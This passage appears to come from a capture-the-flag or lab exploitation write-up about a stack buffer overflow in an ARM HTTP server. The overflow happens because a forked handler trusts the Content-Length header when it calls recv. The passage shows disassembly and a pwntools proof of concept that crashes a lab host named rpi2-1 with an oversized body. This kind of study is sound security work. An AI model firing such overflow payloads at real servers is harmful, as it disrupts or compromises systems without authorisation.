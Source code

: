 The use of `fork()` is a good news as we know that we will be able to reuse
any address we leaked.

The forked process which executes `treat_requests()` is more interesting: the
function starts by reading 0x800 bytes and
look for the marker of end for HTTP headers (`CRLF`*2).  If not found, it will
keep iterating through the loop. Otherwise, the block read will search for the header `Content-Length` and if
found, will call `strtol()` on it to convert the pointer into a long
integer (let's call it `N`).
{{ img(src="https://i.imgur.com/awC1RfU.png" title="image_alt") }}

This value will be used to call read `N` bytes from
the socket and stored in local buffer of size 0xffc. The overflow comes clear as
we controlled the size of the `Content-Length` header, we can forged an HTTP
request whose body is big enough to corrupt the memory.

```asm
.text:000015DC MOV     R1, #0          ; endptr
.text:000015E0 MOV     R2, #10         ; base
.text:000015E4 BL      strtol
.text:000015E8 SUBS    R4, R0, 0       ; N=$r4=strtol(hdrs["Content-Length"), 10)
[...]
.text:00001608 MOV     R0, R9          ; fd
.text:0000160C MOV     R1, R6          ; stack_buffer
.text:00001610 MOV     R2, R4          ; N
.text:00001614 MOV     R3, R10         ; flags
.text:00001618 BL      recv
```

This is quite easy to PoC, simply by sending a large buffer:

```python
from pwn import *

r = remote("rpi2-1", 80)
crlf = "\r\n"
head = ["GET . HTTP/1.1",
        "Host: rpi2-1",
        "Content-Length: 10000"]

log.info("sending header")
r.send(crlf.join(head) + crlf*2)

log.info("sending body")
r.send("A"*10000)
```

Run it and see the crash.

```bash
$ py exploit.py
[+] Opening connection to rpi2-1 on port 80: Done
[+] sending header
[+] sending body
[*] Closed connection to rpi2-1 port 80
```
